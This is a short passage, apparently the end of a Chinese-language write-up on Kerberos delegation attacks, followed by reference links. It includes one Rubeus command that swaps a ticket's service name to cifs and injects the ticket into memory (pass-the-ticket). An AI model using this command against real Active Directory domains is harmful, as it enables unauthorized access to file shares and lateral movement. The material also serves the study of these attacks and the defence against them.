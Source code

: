 发现 SPN 并没有指定服务

利用 Rubeus 完成票据修改：

`rubeus.exe tgssub /ticket:base64EncodeTicket /altservice:cifs/test1 /ptt`

修改后导入内存即可。

参考：

-   [http://www.const27.com/2020/10/12/域委派攻击/](http://www.const27.com/2020/10/12/%e5%9f%9f%e5%a7%94%e6%b4%be%e6%94%bb%e5%87%bb/)
-   [https://eviladan0s.github.io/2020/04/14/kerberos-delegation/](https://eviladan0s.github.io/2020/04/14/kerberos-delegation/)
-   [https://xz.aliyun.com/t/7217](https://xz.aliyun.com/t/7217)
-   [https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400(v=ws.11)](https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400%28v=ws.11%29)
-   [https://daiker.gitbook.io/windows-protocol/kerberos/2#0x05-wei-pai](https://daiker.gitbook.io/windows-protocol/kerberos/2#0x05-wei-pai)
-   [https://blog.ateam.qianxin.com/post/wei-ruan-bu-ren-de-0day-zhi-yu-nei-ben-di-ti-quan-lan-fan-qie](https://blog.ateam.qianxin.com/post/wei-ruan-bu-ren-de-0day-zhi-yu-nei-ben-di-ti-quan-lan-fan-qie)
